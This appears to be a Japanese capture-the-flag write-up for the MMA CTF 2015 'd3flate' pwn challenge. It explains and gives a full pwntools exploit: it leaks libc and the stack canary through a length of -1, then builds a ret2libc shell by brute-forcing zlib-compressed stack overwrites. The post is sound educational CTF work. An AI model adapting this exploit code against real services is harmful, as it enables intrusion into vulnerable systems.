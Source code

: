 ```yaml
---
layout: post
alias: "/blog/2016/09/09/mma-ctf-2015-d3flate/"
date: "2016-09-09T15:08:55+09:00"
title: "MMA CTF 2015: d3flate"
tags: [ "ctf", "writeup", "mmactf", "pwn", "zlib", "canary" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/d3flate-500" ]
---
```


解けないからwriteupを見たが、writeupにあった実装ではどれもzlibの計算が停止する気配がなかった。追加で頑張った。

## solution

全体の流れは単純。

1.  proof-of-workを解く
2.  長さに$-1$を指定してlibc baseとcanaryをleak
3.  以下を繰り返す
    1.   平文を送る
    2.   そのzlib圧縮結果のbofでstackを書き換える
4.  `Bye`と送って発火

proof-of-workは単純にやるしかない。
運が悪いとけっこうかかる。

stackのleakに関して。
長さに$-1$を指定すると、標準入力からの読み込みは実際には行われないが$255$文字読まれた扱いになる。
ここで、proof-of-workの際の関数によるcanary等が`$esp`より低位側に残されているので、これが読める。
proof-of-workが邪魔だからとbinaryを書き換えてnopで埋めていると、canaryが見つからずどうにもならなくなるので注意。

stackへの書き込みは、文字列`s`を送ると`zlib.compress(s)`が書き込まれる。
canaryやreturn先address等が書き変わるが、当然書き込む値は自由にはならない。
これは探索をする。平文となる`s`を`zlib.compress(s)`が要件を満たすまで生成し続ければよい。
乱数を突っ込めば圧縮できずにそのまま出てくるが、そのようなものは禁止されているので使えない。
ただし最低でも$12$byte (canary + system + `/bin/sh`)を書き込む必要があり、一括で書き込むのは難しい。
$1$byteずつ後ろから書き込むとよい。

## implementation

``` python
#!/usr/bin/env python2
import os
import time
import random
import zlib
import itertools
import hashlib
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

p = process('./d3flate')

salt = p.recvline().split('"')[1] # Send me a proof-of-work sha1("XXXXXXXX" || stripLF(sent)) = 123456xxx...
for witness in itertools.count():
    if witness % 100000 == 0:
        log.debug('witness: %d', witness)
    if hashlib.sha1(salt + str(witness)).hexdigest().startswith('123456'):
        break
p.sendline(str(witness))
p.recvline()

p.sendline('-1')
s = p.recv(int(p.recvline()))
s = zlib.decompress(s)
log.info('zlib decompressed:\n' + fiddling.hexdump(s))

libc = ELF('/lib/i386-linux-gnu/libc.so.6') # for my local environment
libc_base = u32(s[0xbc:][:4]) - (libc.symbols['fflush'] + 11)
canary = u32(s[0xc0:][:4])
log.info('libc base: %#x', libc_base)
log.info('canary: %#x', canary)
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search('/bin/sh\0'))
log.info('system  address: %#x', system)
log.info('/bin/sh address: %#x', binsh)

for base, value in [ (0x98, binsh), (0x90, system), (0x80, canary) ]:
    for offset, char in reversed(list(enumerate(p32(value)))):
        for i in itertools.count():
            s = chr(random.randint(0, 255)) * random.randint(30, 40) + os.urandom(base + offset + random.randint(- 10, 20))
            s = s[: 0x80] + '\x78\x9c' + s[0x82 :]
            s = zlib.compress(s)
            s = s[: base + offset + random.randint(-4, 4)] + char
            payload = ''
            z = zlib.decompressobj()
            while s:
                try:
                    payload += z.decompress(s, 1)
                    s = z.unconsumed_tail
                except zlib.error:
                    break
            s = zlib.compress(payload)
            if not s[base + offset :] == char:
                log.debug('trial %d: wrong value: %s != %s', i, repr(s[base + offset :]), repr(char))
                continue
            if not len(s) <= len(payload):
                log.debug('trial %d: wrong length: %d > %d', i, len(s), len(payload))
                continue
            if not len(payload) <= 255:
                log.debug('trial %d: too long payload: 255 < %d', i, len(payload))
                continue
            break
        log.info('payload:\n' + fiddling.hexdump(payload))
        log.info('zlib compressed:\n' + fiddling.hexdump(s))
        p.sendline(str(len(payload) - 256))
        p.sendline(payload)
        s = p.recv(int(p.recvline()))
        log.debug('zlib decompressed: %s\n' + fiddling.hexdump(zlib.decompress(s)))
        assert zlib.decompress(s) == payload
        assert s == zlib.compress(payload)

p.sendline('3')
p.sendline('Bye')

time.sleep(1)
p.sendline('id')
p.interactive()
```
